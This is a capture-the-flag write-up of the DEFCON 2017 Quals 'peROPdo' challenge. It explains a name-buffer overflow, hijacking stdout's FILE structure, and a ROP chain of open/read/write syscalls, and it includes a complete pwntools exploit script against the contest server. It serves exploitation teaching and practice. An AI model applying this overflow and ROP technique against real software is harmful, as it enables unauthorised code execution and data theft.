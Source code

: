title: DEFCON CTF 2017 Quals -- peROPdo
tags:
  - Python
  - C
  - DEFCON
  - CTF
  - Pwnable
  - ROP
  - buffer_overflow
  - file_stream_pointer_overflow
categories:
  - write-ups
author: bruce30262
date: 2017-05-02 14:58:00
---
**Category:** Potent Pwnables

32 bit ELF, static link, stripped, NX enabled, No PIE & canary.  

<!-- more -->

The program is a "rolling dice" program. First we input our name, then the program will ask us how many dice would we like to roll. After we input a number, the program will start generating some random data, then store them on the stack memory. The program will then print out `data[i] % 6 + 1`, which represent the numbers we roll in this round. 

There're two vulnerabilities in the program. First it use `scanf("%s", name)` to read our name, which lead to buffer overflow in the `name` buffer. Then, if we input a number that is larger than **23**, the data that program generated will overflow the `data[i]` buffer and **thus overwrite the return address** ( it will be a random data though ).  

Since the binary was stripped, I wasn't sure which algorithm the program used for randomizing, the only thing I knew is that the algorithm will use our name to generate the random data. At that moment, I thought it was just some self-implement function ( which is **NOT** correct, we'll get into that later).  

And so I thought "Hmmm, maybe I could use some symbolic execution tool to calculate the address I want to return, and do the ROP attack". **This was such a huge mistake**, since I'm not familiar with any of the symbolic execution tools -- [angr](http://angr.io/), [Triton](https://github.com/JonathanSalwan/Triton), not to mention the fresh out [manticore](https://github.com/trailofbits/manticore). Even worse, all of the tool failed to calculate the address -- Triton and manticore couldn't even execute the program, it just crashed :(  

After wasting lots of time with those symbolic execution tools, I decided to try something different -- the first vulnerability: overflowing the `name` buffer. And the result was encouraging -- since I found that I could hijack the control flow by using the `call reg` and the `call [reg+offset]` gadget ( we can control the content of several registers ). It seems that there're some `FILE*` pointer behind the `name` buffer, so we can exploit the service by [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/) ( we can't control the function parameters though). 

Here I chose to use the second gadget ( `call [reg+offset]` ), since when the program execute to that line of code, its second parameter will be the `FILE*` pointer of `stdout`. I control the `eip` and jump to the middle of the main function:  
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- I jump to here
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

This will make the program store the `%s` string to the first parameter, then call the `scanf` function, making the program calling `scanf("%s", stdout)` -- and thus we can control the content of `stdout` !

By crafting `stdout`, we can actually hijack the control flow, while having the first parameter controlled. This allowed us to do some advanced ROP attack. Here's what I did after I controlled the `eip`:  
1. Jump to `xchg esp, eax` gadget, migrate the stack to `stdout` (which now controlled by us)  
2. Use `add esp, offset` to skip the uncontrollable member data in `stdout`  
3. Since it's a static linked binary, it's easy for us to find some gadgets and do the **open/read/write** syscall, making the service print out the flag of the challenge. (The **execve** syscall seems to be filtered out in this challenge)  


Final exploit:  
```python exp_peropdo.py 
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT = 80
ELF_PATH = "./peropdo"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func = 0x0806d7aa # avoid crash
    scanf = 0x08048b2a
    name = p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream = p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream = stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream = stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream = stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx = 0x806f322  # pop ebx;ret
    pop_eax = 0x80e3525  # pop eax;ret
    pop_ecx = 0x080e5ee1 # pop ecx ; ret 
    pop_edx = 0x0806f2fa # pop edx ; ret
    int80 = 0x806fae0    # int 0x80 ; ret 
    buf = 0x80ed000-0x100
    rop = flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax = 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`  

Later did I know (thanks to teammate [Isaac](https://poning.me/)) that there's a thing call [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml) in IDA Pro, which can help the user identify the function call in libc. All we need to do is download a FLIRT signature database from github ( [here's](https://github.com/push0ebp/sig-database) the DB I used for this challenge ), and use **FILE --> Load File --> FLIRT signature file** to load the database. IDA will then identify the function name, making the reverse engineering less painful. By using this technique, we'll be able to identify some libc function, even the location of `stdout`.  

And that's when I found that the "self-implement random" function is actually just `srand()` & `rand()` in libc. According to [meh](https://github.com/mehQQ) from HITCON, you can just brute-force the desired return address. Moreover, because the `name` buffer address is right under the return address, so you can just use `pop esp; ret` to migrate the stack into `name` buffer, and do the ROP attack. Guess I still got a lot of shit to learn :/